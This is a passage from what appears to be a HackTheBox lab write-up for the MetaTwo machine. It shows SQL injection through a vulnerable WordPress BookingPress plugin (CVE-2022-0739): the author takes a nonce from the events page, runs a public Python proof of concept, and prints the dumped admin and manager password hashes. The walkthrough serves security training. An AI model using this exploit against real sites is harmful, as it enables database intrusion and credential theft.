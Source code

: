 ![plugin](Wed-10-2024_19-12.png)

![Wordpress Version](Wed-10-2024_19-13.png)

## SQLi via Vulnerable plugin
I decide to look into the plugin I found. I find an exploit for it tracked under [CVE-2022-0739](https://nvd.nist.gov/vuln/detail/CVE-2022-0739)for SQL injection. I also find a [POC from WpScan](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357/), as well as a [python script POC on github](https://github.com/destr4ct/CVE-2022-0739). The vulnerability happens because user supplied data from a POST request is not properly sanitized before being used in an SQL query from the `bookingpress_front_get_category_services` ajax action. 

For the python POC to work I just need to grab the nonce. I can do this by intercepting the request to the `/events` page in Burpsuite. The POC automates the SQL injection to dump the database, revealing usernames and password hashes for `admin` and `manager`.

![nonce](Wed-10-2024_19-16.png)
```bash
┌──(kali㉿Kali)──[19:17:45]──[~/htb/Machines/MetaTwo]
└─$ python3 SQLi.py -u http://metapress.htb/ -n '1b4e97d0c7' 
- BookingPress PoC
-- Got db fingerprint:  10.5.15-MariaDB-0+deb11u1
-- Count of users:  2
|admin|admin@metapress.htb|$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.|
|manager|manager@metapress.htb|$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70|
```

